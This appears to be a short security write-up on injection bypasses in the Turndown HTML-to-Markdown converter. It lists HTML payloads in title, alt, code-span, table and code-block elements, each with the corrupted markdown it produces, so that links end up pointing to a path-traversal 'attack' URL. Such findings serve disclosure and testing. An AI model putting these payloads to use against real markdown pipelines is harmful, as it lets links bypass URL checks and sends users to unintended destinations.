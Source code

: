 # 🚨 CRITICAL: Turndown Conversion Bypasses - WORKING ATTACKS  

## Root Cause: HTML-to-Markdown Conversion Injection
Turndown converts HTML attributes to markdown syntax, allowing injection of malicious markdown structures.

## Working Bypasses:

### Title Attribute Injection
<a href="https://example.com/safe" title="](https://example.com/safe/..%2fattack)">Turndown title</a>
Result: `[Turndown title](https://example.com/safe "](https://example.com/safe/..%2fattack)")`

### Alt Attribute Injection
<img src="https://example.com/safe/img.png" alt="](https://example.com/safe/..%2fattack)" />
Result: `![](https://example.com/safe/..%2fattack)](https://example.com/safe/img.png)`

### Code Span Link Hijacking
<a href="https://example.com/safe"><code>](https://example.com/safe/..%2fattack)</code></a>
Result: `[`](https://example.com/safe/..%2fattack)`](https://example.com/safe)`

### Table Title Attributes
<table><tr><td title="](https://example.com/safe/..%2fattack)">cell</td></tr></table>
Result: Table preserves attack URL in title attribute

### Code Block Injection
<code>](https://example.com/safe/..%2fattack)</code>
Result: `` `](https://example.com/safe/..%2fattack)` ``

## Impact: Markdown Structure Corruption
These attacks corrupt the markdown structure itself, making the attack URLs the primary destinations rather than safe URLs.